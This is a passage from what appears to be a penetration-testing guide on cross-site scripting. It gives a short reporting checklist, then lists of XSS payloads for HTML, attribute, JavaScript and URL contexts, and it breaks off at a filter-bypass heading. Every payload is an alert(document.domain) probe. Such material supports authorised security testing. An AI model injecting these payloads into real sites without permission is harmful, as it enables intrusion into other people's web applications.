 ### 6. Reporting Phase

- Document each vulnerability with:
    - Precise location and context
    - Working payload(s)
    - Reproduction steps
    - Impact assessment
    - Remediation recommendations

## Context-Specific XSS Payloads

### HTML Context Payloads

```html
<script>alert(document.domain)</script>
<img src=x onerror=alert(document.domain)>
<svg onload=alert(document.domain)>
<body onload=alert(document.domain)>
<iframe onload=alert(document.domain)>
<video src=x onerror=alert(document.domain)>
<div onmouseover=alert(document.domain)>hover me</div>
<details open ontoggle=alert(document.domain)>
```

### Attribute Context Payloads

```html
" onmouseover="alert(document.domain)
"><img src=x onerror=alert(document.domain)>
" autofocus onfocus="alert(document.domain)
" onclick="alert(document.domain)
javascript:alert(document.domain)
```

### JavaScript Context Payloads

```javascript
';alert(document.domain)//
\";alert(document.domain)//
</script><img src=x onerror=alert(document.domain)>
'-alert(document.domain)-'
\'-alert(document.domain)//
```

### URL Context Payloads

```
javascript:alert(document.domain)
data:text/html,<script>alert(document.domain)</script>
```

## Filter Bypass Techniques
